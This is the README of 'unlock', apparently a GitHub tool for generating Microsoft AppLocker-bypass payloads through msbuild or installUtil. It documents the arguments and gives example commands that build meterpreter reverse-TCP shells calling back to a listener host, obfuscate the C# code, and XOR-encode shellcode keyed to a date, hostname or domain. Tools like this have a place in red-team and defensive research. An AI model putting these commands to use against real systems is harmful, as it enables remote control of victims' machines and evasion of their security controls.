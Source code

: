 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV] [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  [--method METHOD] [--enaobf] [--encshell ENCSHELL] [--custom CUSTOM] [--x64]

## Arguments:
--output FILENAME   Output file name without extension
--framework FWV      Framework NET version
--payload PAYLOAD    Payload in MSF syntax
--lhost LHOST        Local host for reverse shell
--lport LPORT        Local port for reverse shell
--method METHOD      Evasion method: msbuild or installUtil
--enaobf             Enable CS code obfuscation
--encshell ENCSHELL  Encode shell with: yyyymmdd, yyyymm, hostname, or domain
--enctext TEXT       Text to xorencode payload with, used with hostname or domain
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport)
--x64                set if your custom payload is x64

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild
- python unlock.py --framework 4.0 --custom shellcode.bin --x64
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell yyyymm
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell hostname --enctext SECRETARY
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell domain --enctext CONTOSO
